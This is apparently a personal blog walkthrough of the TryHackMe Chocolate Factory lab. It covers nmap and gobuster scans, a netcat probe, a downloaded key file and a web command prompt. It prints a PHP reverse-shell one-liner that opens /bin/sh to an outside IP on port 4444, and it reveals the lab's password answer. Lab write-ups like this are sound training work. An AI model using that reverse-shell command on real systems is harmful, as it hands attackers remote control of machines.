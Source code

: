 ```yaml
---
title: "I did the TryHackMe Chocolate Factory Lab, so here is a walkthrough"
date: 2025-8-23
image: https://dvanmosselbeen.github.io/TryHackMe_writeups/chocolatefactory/files/golden-ticket.jpg
layout: post
---
```


I decided to go through the TryHackMe Chocolate Factory room. Here is a walkthrough of what I did.

### Part 1: Getting the key

Question one is to find the answer key as shown below.

![An image of question one on the TryHackMe Website reading: "Enter the answer key you found!"](https://files.catbox.moe/gx15cn.png)

I will start by connecting to the VPN Server with OpenVPN.

This is a screen recording of me doing exactly that

<video controls width="100%">
  <source src="https://files.catbox.moe/lfln6b.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

As you can see it is quite easy to do so even if the AttackBox seems tempting.

I will now start with a simple Nmap scan

![The terminal output of said Nmap scan](https://files.catbox.moe/kcadh3.png)

While nothing interesting, the http port does seem interesting, so let's check it out.

I will need to go to http://10.10.30.125 as that is my given target IP.

![A screenshot of the resulting page](https://files.catbox.moe/z1p7u9.png)

I can't really do anything with this. I tried a few basic credentials like 'Admin' 'Admin' and even tried SQL Injections but nothing. 
Looking at the terminal output I see an FTP service. I will try using the Nmap Banner command command and see the result.

I will now run the following command: nmap --script=banner 10.10.30.125 -p21-125 -v

![here is the output btw :)](https://files.catbox.moe/r7m69l.png)

Well that was a waste of time. All I got is a welcome message :/

Remember the original scan I did. Well I tried every port listed and got an interesting result from port 113 when doing a Netcat scan.

![Idk what to put here 😭](https://files.catbox.moe/l0v4ls.png)

This is great progress from before.

I will go to the following address as in: http://10.10.30.125/key_rev_key

Let's see what happens!

![A prompt for a download from said address :)](https://files.catbox.moe/pwnco2.png)

Well what happens if I extract the file.

![I scrolled down after running: strings key_rev_key](https://files.catbox.moe/34oz92.png)

And there is the answer. Submitting it shows it is correct.

### Charlie's Password

Well if you thought that was it well, you'd be WRONG, that was just the start lol.

I think this might be easier as this is just asking for a password.

![The question btw](https://litter.catbox.moe/1ds4r26y3wr2yeit.png)

Okay, I know there is a http service, could there be any more directories on the server.
I will use Go boster to find out exactly that

gobuster dir -u http://10.10.8.21/ -w /usr/share/dirb/wordlists/common.txt -x php,html,js,txt

And this was the result 

![yes i did steal this image](https://cryptichacker.github.io/assets/img/tryhackme/chocolatefactory/3.png)

Yes, yes I did just steal this image from another write-up 😭

![whyyyyyyy](https://cdn.discordapp.com/attachments/1084461361393836162/1408023721733521499/image0.gif?ex=68ac3047&is=68aadec7&hm=8599790a97e30b9721ac498766c3301dfedd4a11c6f0f7e033b327b8b0fdbf3a&)

I will go to home.php as shown in the (stolen) screenshot I showed.

![idk figure it out](https://litter.catbox.moe/ulorcm72yz628eyo.png)

Ohhhhhhhh this is great progress. A literal command prompt, what more could I possibly ask.

I will try running: whoami

![well idk what this is](https://litter.catbox.moe/fh6ugf4y7plv2b9f.png)

Ok am puzzled at this. I was expecting the username to be something like Charlie. Maybe this is a seperate user environment.

Wait what is this a php payload: php -r '$sock=fsockopen("18.202.129.195",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

Let's run it!

![It is loading smth?](https://litter.catbox.moe/tinuabqig3o9lpl9.png)

Something is loading?

Let's check netcat now

update: I am using a macOS machine so unfortunatly I can't show you my results because the command cant run as netcat works differently for some reason. I will link the images from another write-up and I will have a link below. If you find a solution feel free to send me a message on Discord, @noah_deyck or email me at brevity.slicer9f@icloud.com

Let's also run Netcat to scan the payload response. 

![Source: CrypticHacker](https://cryptichacker.github.io/assets/img/tryhackme/chocolatefactory/5.png)

and using the shell i found validate.php. Let's open it

![Source: CrypticHacker](https://cryptichacker.github.io/assets/img/tryhackme/chocolatefactory/8.png)

And there is the password, cn7824.

### To be continued










